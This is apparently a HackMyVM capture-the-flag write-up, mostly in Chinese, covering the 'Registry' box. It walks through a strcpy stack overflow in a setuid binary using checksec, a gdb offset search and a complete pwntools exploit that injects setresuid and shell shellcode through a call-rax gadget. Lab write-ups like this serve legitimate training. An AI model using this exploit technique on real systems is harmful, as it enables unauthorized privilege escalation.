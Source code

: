 ```yaml
---
title: 'heackmyvmRegistry'
date: 2024-11-07 13:00:00 +0800
categories: [hack,HackMyVm]
tags: []
---
```

### program

```shell
bamuwe@bamuwe:~$ checksec program
[*] '/program'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

> 保护全关，可以考虑写入shellcode

```c
char *__fastcall vuln(const char *a1)
{
  char dest[128]; // [rsp+10h] [rbp-80h] BYREF

  return strcpy(dest, a1);		//stackoverflow
}
```

> 漏洞函数

```shell
bamuwe@bamuwe:/mnt/c/Users/qianenzhao/Desktop/R$ gdb program
...
pwndbg> set args `cyclic 200`
pwndbg> r
*RIP  0x4011d9 (vuln+47) ◂— ret
____________________________________________________
 ► 0x4011d9 <vuln+47>    ret    <0x6261616b6261616a>
 ...
 bamuwe@bamuwe:~$ cyclic -l 0x6261616b6261616a
136
```

> 确定padding=136

```shell
www-data@registry:/opt/others$ ls -l
ls -l
total 16
-rwsr-xr-x 1 cxdxnt cxdxnt 15976 Jul 24  2023 program
```

思路：

1. 写入`shellcode`，填充到`ret`指令，再调用`call rax`执行`shellcode`

			2. `shellcode`由提升权限`(cxdxnt)`和获取`shell`两部分组成

```python
from pwn import *
context.arch = 'amd64'
shellcode = asm(shellcraft.setresuid())+asm(shellcraft.sh())
padding = 136
payload = shellcode.ljust(padding,b'A')+p32(0x401014)
shell = process(['./program',payload])
shell.interactive()
```



